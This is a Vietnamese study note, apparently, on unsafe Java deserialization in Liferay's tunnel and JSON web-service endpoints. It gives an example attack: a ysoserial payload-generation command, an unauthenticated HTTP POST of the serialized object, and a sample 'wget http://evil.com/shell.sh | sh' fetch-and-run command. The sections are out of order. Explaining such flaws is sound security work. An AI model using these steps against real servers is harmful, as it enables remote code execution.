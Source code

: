 
---

##### 💥 2. **Tại sao có thể bị tấn công?**

- Liferay **không giới hạn hoặc giới hạn không đủ chặt** quyền truy cập tới `TunnelServlet`.
    
- Endpoint `/api/liferay/tunnel` (hoặc tương tự như `/c/tunnel`, `/api/jsonws/invoke`) thường **mở ra công khai**, hoặc ít nhất bị tấn công nếu attacker truy cập được vào hệ thống mạng nội bộ.
    
- Hệ thống sử dụng **Java Serialization không kiểm soát đầu vào**, cho phép attacker gửi chuỗi serialized.
    

---

##### 🧪 3. **Kịch bản tấn công ví dụ**

1. Kẻ tấn công tạo một payload Java serialized độc hại (bằng tool như [ysoserial](https://github.com/frohoff/ysoserial)).
```js
java -jar ysoserial.jar CommonsCollections1 "calc" > payload.ser
```

2. Gửi payload tới `/api/jsonws/invoke` hoặc `/c/tunnel` qua HTTP POST với kiểu MIME thích hợp:
```js
POST /api/jsonws/invoke HTTP/1.1
Content-Type: application/x-java-serialized-object

<payload dữ liệu binary>
```

3. Nếu thành công: mã độc (ví dụ `calc` hoặc `wget http://evil.com/shell.sh | sh`) sẽ được thực thi trên hệ thống server.


##### 📌 4. **Mức độ nghiêm trọng**

| Mức độ         | Miêu tả                                                                              |
| -------------- | ------------------------------------------------------------------------------------ |
| **Cao (High)** | Vì attacker có thể **thực thi mã từ xa** mà **không cần xác thực** (CVSS 9.8 - 10.0) |
| CVE liên quan  | Không có CVE cụ thể, nhưng được theo dõi nội bộ (TRA-2017-01, LPE-15538)             |
# 2. Phân tích lỗ hổng unsafe deserialization của Liferay

**Liferay** là một **nền tảng phần mềm mã nguồn mở** (open-source platform) được dùng chủ yếu để xây dựng các **cổng thông tin (portal)**, **website doanh nghiệp**, hoặc **ứng dụng web tích hợp**. Nó rất phổ biến trong các tổ chức lớn nhờ khả năng mở rộng, tích hợp dễ dàng và hỗ trợ phát triển theo mô-đun.

Liferay – đặc biệt ở các phiên bản cũ hoặc cấu hình không an toàn – có thể có lỗ hổng **deserialization không an toàn** nếu:

1. Hệ thống **nhận dữ liệu từ client** (dạng object/byte stream),
    
2. Sử dụng **Java serialization** để chuyển đổi dữ liệu thành object,
    